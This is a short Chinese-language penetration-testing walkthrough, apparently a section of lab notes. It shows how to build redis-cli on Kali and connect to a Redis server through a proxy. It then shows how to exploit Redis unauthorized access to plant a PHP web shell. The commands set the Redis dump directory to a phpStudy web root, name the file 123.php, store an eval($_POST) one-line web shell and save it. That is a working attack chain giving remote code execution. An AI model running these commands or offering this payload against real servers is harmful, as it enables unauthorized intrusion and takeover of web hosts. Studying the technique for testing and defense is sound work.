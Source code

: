 ### 9.1. KALI  安装 redis-cli

```shell
wget http://download.redis.io/redis-stable.tar.gz
tar -zxvf redis-stable.tar.gz       #解压文件


cd redis-stable 
make             #编译文件  
cp src/redis-cli /usr/bin/
```



### 9.2.连接redis

连接的时候要挂上代理

![2022-01-18_21-43-28](img/2022-01-18_21-43-28.png)

### 9.3.redis未授权漏洞写webshell



路径为`C:/phpStudy/PHPTutorial/WWW/`



```shell
redis-cli -h 10.0.20.99

config set dir "C:/phpStudy/PHPTutorial/WWW/"
config set dbfilename 123.php
set 1 "<?php @eval($_POST['123']);?>"
save
```

![](img/2022-01-18_21-54-31.png)
